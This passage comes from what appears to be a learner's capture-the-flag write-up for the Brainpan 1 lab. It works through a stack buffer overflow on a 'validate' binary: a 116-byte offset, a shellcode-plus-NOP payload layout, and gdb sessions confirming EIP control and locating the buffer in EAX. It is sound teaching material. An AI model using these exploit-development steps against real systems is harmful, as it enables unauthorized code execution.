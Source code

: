 We now have our payload length which is the offset size: `116` bytes (don't include the return address 4 bytes).

:::info

All my own work after this point did not yield any results so from this point on I'm following this great write-up by [Interfence Security](https://resources.infosecinstitute.com/topic/brainpan_virtual_machine/) at infosecinstitute.

:::

#### validate payload

:::danger Further Understanding needed!

I don't understand why the payload is in the order it is i.e. why sometimes the NOP comes before shellcodes instead of after, when do we know we need alignment bytes? I need to find more understanding of what determines what in the payload.

:::

`payload = shellcode + NOP` (116 bytes) + `return_address` (4 bytes)

#### validate EIP

verify that we control the EIP

```bash
(gdb) run $(python -c "print 'A'*116 + 'B'*4")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/kali/Documents/RxHack/THM/OFFENSIVEPENTESTPATH/BRAINPAN1/validate $(python -c "print 'A'*116 + 'B'*4")

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

yes we can control the EIP.

#### validate return address

Find an instruction to `jmp` to our shellcode.

check what's in the registers:

```bash
(gdb) i r
eax            0xffffcf08          -12536
ecx            0xffffd2e0          -11552
edx            0xffffcf78          -12424
ebx            0x41414141          1094795585
esp            0xffffcf80          0xffffcf80
ebp            0x41414141          0x41414141
esi            0x2                 2
edi            0x8048400           134513664
eip            0x42424242          0x42424242
eflags         0x10286             [ PF SF IF RF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99
(gdb) x/s $esp
0xffffcf80:     ""
(gdb) x/s $eip
0x42424242:     <error: Cannot access memory at address 0x42424242>
(gdb) x/s $eax
0xffffcf08:     'A' <repeats 116 times>, "BBBB"
```
